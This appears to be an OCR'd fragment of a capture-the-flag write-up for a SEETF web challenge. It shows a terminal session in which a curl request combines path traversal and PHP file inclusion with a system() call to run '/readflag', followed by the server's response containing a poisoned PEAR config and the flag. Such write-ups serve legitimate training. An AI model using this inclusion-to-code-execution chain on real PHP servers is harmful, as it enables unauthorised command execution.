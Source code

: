```html

            for (let j = 0; j < partLength; j++) {
                parts[i].innerHTML += message[currIdx % messageLength];
                currIdx++;
            }
        }
    }
</script>
```

```html
</html>(base) [hacker@hackerbook tmp]$ curl "http://sourcelessguessyweb.chall.seetf.sg:1337/?page=../../../tmp/eval.php"  -d "1=system('/readflag');"

<!--
\        /|   |\   /   /~~  /~~\    /~~ |~~ |~~\| /~~\ |   |/~~
 \  /\  / |---| \ /    |__ |    |   |__ |-- |__/||    ||   ||__
  \/  \/  |   |  |     ___| \__/    ___||__ |  \| \__/  \_/ ___|
-->

...

<script>
    let message = `
        #PEAR_Config 0.9
a:12:{s:7:"php_dir";s:76:"/&page=../../../usr/local/lib/php/pearcmd.php&/SEE{l0l_s0urc3_w0uldn't_h4v3_h3lp3d_th1s_1s_d3fault_PHP_d0cker}/pear/php";s:8:"data_dir";s:77:"/&page=../../../usr/local/lib/php/pearcmd.php&/SEE{l0l_s0urc3_w0uldn't_h4v3_h3lp3d_th1s_1s_d3fault_PHP_d0cker}/pear/data";s:7:"www_dir";s:76:"/&page=../../../usr/local/lib/php/pearcmd.php&/SEE{l0l_s0urc3_w0uldn't_h4v3_h3lp3d_th1s_1s_d3fault_PHP_d0cker}/pear/www";s:7:"cfg_dir";s:76:"/&page=../../../usr/local/lib/php/pearcmd.php&/SEE{l0l_s0urc3_w0uldn't_h4v3_h3lp3d_th1s_1s_d3fault_PHP_d0cker}/pear/cfg";s:7:"ext_dir";s:76:"/&page=../../../usr/local/lib/php/pearcmd.php&/SEE{l0l_s0urc3_w0uldn't_h4v3_h3lp3d_th1s_1s_d3fault_PHP_d0cker}/pear/ext";s:7:"doc_dir";s:77:"/&page=../../../usr/local/lib/php/pearcmd.php&/SEE{l0l_s0urc3_w0uldn't_h4v3_h3lp3d_th1s_1s_d3fault_PHP_d0cker}/pear/docs";s:8:"test_dir";s:78:"/&page=../../../usr/local/lib/php/pearcmd.php&/SEE{l0l_s0urc3_w0uldn't_h4v3_h3lp3d_th1s_1s_d3fault_PHP_d0cker}/pear/tests";s:9:"cache_dir";s:78:"/&page=../../../usr/local/lib/php/pearcmd.php&/SEE{l0l_s0urc3_w0uldn't_h4v3_h3lp3d_th1s_1s_d3fault_PHP_d0cker}/pear/cache";s:12:"download_dir";s:81:"/&page=../../../usr/local/lib/php/pearcmd.php&/SEE{l0l_s0urc3_w0uldn't_h4v3_h3lp3d_th1s_1s_d3fault_PHP_d0cker}/pear/download";s:8:"temp_dir";s:77:"/&page=../../../usr/local/lib/php/pearcmd.php&/SEE{l0l_s0urc3_w0uldn't_h4v3_h3lp3d_th1s_1s_d3fault_PHP_d0cker}/pear/temp";s:7:"bin_dir";s:72:"/&page=../../../usr/local/lib/php/pearcmd.php&/SEE{l0l_s0urc3_w0uldn't_h4v3_h3lp3d_th1s_1s_d3fault_PHP_d0cker}/pear";s:7:"man_dir";s:76:"/&page=../../../usr/local/lib/php/pearcmd.php&/SEE{l0l_s0urc3_w0uldn't_h4v3_h3lp3d_th1s_1s_d3fault_PHP_d0cker}/pear/man";}    `.replace(/[^A-Za-z0-9!?]/g, ' ').trim();

    if (message) {
        let currIdx = 0;
        let messageLength = message.length;

        let parts = document.querySelectorAll('.lazarus-pit > div');
        for (let i = 0; i < parts.length; i++) {
            let partLength = parts[i].innerHTML.length;

            parts[i].innerHTML = '';

            for (let j = 0; j < partLength; j++) {
                parts[i].innerHTML += message[currIdx % messageLength];
                currIdx++;
            }
        }
    }
</script>
(base) [hacker@hackerbook tmp]$ 
```
